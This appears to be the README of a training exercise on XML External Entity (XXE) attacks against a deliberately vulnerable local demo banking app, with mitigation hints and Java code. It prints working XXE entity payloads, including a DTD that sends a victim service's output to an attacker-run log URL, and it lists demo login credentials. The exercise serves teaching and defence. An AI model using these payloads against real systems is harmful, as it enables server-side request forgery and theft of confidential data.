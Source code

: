 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications

1. check out exercise5 
   * from command line: 'git checkout exercise5'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Brief description of the exercise
The applications in this scenario are:
* the vbank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/xxe, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim
    * This service should normally not be availabe to the client calling the v-bank application. 
    With the help of the XXE exploit the attacker manages to call the service and:
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (whose input can be viewed at http://attack.127.0.0.1.xip.io:9090/viewlog)
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

Hint: XXE vulnerabilities are to be found where XML parsing/processing takes place.

Present vulnerabilities: _BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: Normal payload
* xxe_call_service.xml: XEE payload calling a service
* xxe_call_service_out-of-band.xml: XXE payload calling a service and returning results out of band

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * then due to ```<note>&victim;</note>``` the XML parser places it into the the note field before constructing the Transaction objects.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks 
    * (1) Configure the XML parser to omit external DTD resources  
    * (2) Add a lexical parser to preprocess the XML and fail if any entities are found
    * Hints:
      * (1) in _BankController.uploadTransactions(...)_:
       ```
       unmarshaller.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "false");
       ```
      * (2) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (2) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is avaliable in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
You may find more on XXE mitifations at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md
    

